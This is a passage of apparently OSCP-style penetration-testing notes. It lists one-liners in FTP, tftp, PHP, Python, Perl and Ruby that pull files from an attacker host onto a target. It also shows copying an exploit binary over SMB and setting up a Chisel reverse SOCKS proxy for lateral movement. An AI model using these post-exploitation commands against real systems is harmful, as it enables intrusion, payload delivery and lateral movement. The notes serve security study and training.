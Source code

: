 | echo bin >> ftp.txt | FTP |
| echo get test.txt >> ftp.txt | FTP |
| echo bye >> ftp.txt | FTP |
| ftp -s:ftp.txt	| Wget and FTP to download files from an FTP server |
| tftp |	tftp -i IP_ADDR {GET | PUT} file |
| scp /path/file username@IP_ADDR:/path/file	| Secure File Copy SSH tool |
| https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c	| Windows Virtual Basic scripts |
| php -r “file_put_contents(‘output_file’, fopen(‘http://ip-addr:port/file’, ‘r’));”	| PHP file_put_contents function |
| python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’; | The Python urlretrieve function which is part of the urllib library can be used to download files |
| python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’	| The Python urlretrieve function which is part of the urllib library can be used to download files |
| perl -MLWP::Simple -e ‘getstore(“http://IP_ADDR/file”, “out_file”)’; | Library for WWW in Perl |
| perl -e ‘use LWP::Simple; getstore(“http://IP_ADDR/file”, “out_file”)’	| Library for WWW in Perl |
| ruby -e ‘require “open-uri”;File.open(“output_file”, “wb”) do \|file\|;URI.open(“http://ip-addr:port/file”).read;end’	| Ruby Open-URI library |
| echo -n “base64-output” > file	| Decoding the base64 output of the file |

## Windows File Transfers with SMB
- https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html
```bash
#on kali
impacket-smbserver.py shareName sharePath

#on windows
##connect
C:\>net use
C:\>net use \\[host]\[share name]
##copy
C:\WINDOWS\Temp>copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe
```

## Pivoting for lateral movement
- https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
### Using Chisel
- https://blog.mkiesel.ch/posts/oscp_pivoting/
- https://ap3x.github.io/posts/pivoting-with-chisel/ for multi level pivot

```bash
#On your attacking machine (192.168.60.200) setup a Chisel server with:
#PORT = port for the Chisel traffic
#socks5 = to setup a SOCKS5 proxy
#reverse = to tell Chisel to wait for a connection from a client
./chisel server --port 1080 --sock5 --reverse

#On your attacking machine edit the file /etc/proxychains4.conf #1080 is the sock5 port
#Chisel
#1080 is the default port of the Chisel reverse proxy
socks5 127.0.0.1 1080

#on windows jumphost, setup Chisel Client with:
#IP = The IP address of your Chisel server
#PORT = The port you set on your Chisel sever
#R:socks = enables the reverse SOCKS proxy
#max-retry-count 1 = to exit Chisel when you kill your server
#must be same port as chisel server
```